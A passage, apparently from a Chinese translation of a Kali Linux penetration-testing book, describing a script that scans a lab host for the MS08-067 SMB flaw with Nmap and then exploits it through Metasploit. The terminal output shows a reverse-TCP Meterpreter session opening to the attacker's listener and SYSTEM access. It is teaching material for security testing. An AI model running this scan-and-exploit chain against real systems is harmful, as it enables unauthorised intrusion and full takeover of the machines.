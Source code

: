 如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 此使用描述显示，该脚本应以参数`RHOST`，`LHOST`和`LPORT`执行。 这些输入值将用于 Nmap NSE 漏洞扫描和（如果有保证）使用 Metasploit 在目标系统上执行利用。 在以下示例中，脚本用于确定 IP 地址为`172.16.36.225`的主机是否存在漏洞。 如果系统被确定为存在漏洞，则会执行利用，并连接到反向 TCP Meterpreter 处理器，该处理其在 IP 地址`172.16.36.239`的 TCP 端口 4444 上监听系统。

```
root@KaliLinux:~# ./test_n_xploit.sh 172.16.36.225 172.16.36.239 4444

Starting Nmap 6.25 ( http://nmap.org ) at 2014-04-10 05:58 EDT 
Nmap scan report for 172.16.36.225 
Host is up (0.00077s latency). 
PORT    STATE SERVICE 
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:18:11:FB (VMware)

Host script results: 
| smb-check-vulns: 
|   MS08-067: VULNERABLE 
|   Conficker: Likely CLEAN 
|   regsvc DoS: NOT VULNERABLE 
|   SMBv2 DoS (CVE-2009-3103): NOT VULNERABLE 
|   MS06-025: NO SERVICE (the Ras RPC service is inactive) 
|_  MS07-029: NO SERVICE (the Dns Server RPC service is inactive)

Nmap done: 1 IP address (1 host up) scanned in 5.61 seconds 172.16.36.225 appears to be vulnerable, exploiting with Metasploit... 
[*] Please wait while we load the module tree...
     ,           ,    
    /             \  
   ((__---,,,---__)) 
      (_) O O (_)_________    
         \ _ /            |\    
          o_o \   M S F   | \  
               \   _____  |  *    
                |||   WW|||      
                |||     |||

Frustrated with proxy pivoting? Upgrade to layer-2 VPN pivoting with Metasploit Pro -- type 'go_pro' to launch it now.

       =[ metasploit v4.6.0-dev [core:4.6 api:1.0] 
+ -- --=[ 1053 exploits - 590 auxiliary - 174 post 
+ -- --=[ 275 payloads - 28 encoders - 8 nops

PAYLOAD => windows/meterpreter/reverse_tcp 
RHOST => 172.16.36.225 
LHOST => 172.16.36.239 
LPORT => 4444

[*] Started reverse handler on 172.16.36.239:4444 
[*] Automatically detecting the target... 
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English 
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX) 
[*] Attempting to trigger the vulnerability... 
[*] Sending stage (752128 bytes) to 172.16.36.225 
[*] Meterpreter session 1 opened (172.16.36.239:4444 -> 172.16.36.225:1130) at 2014-04-10 05:58:30 -0400

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
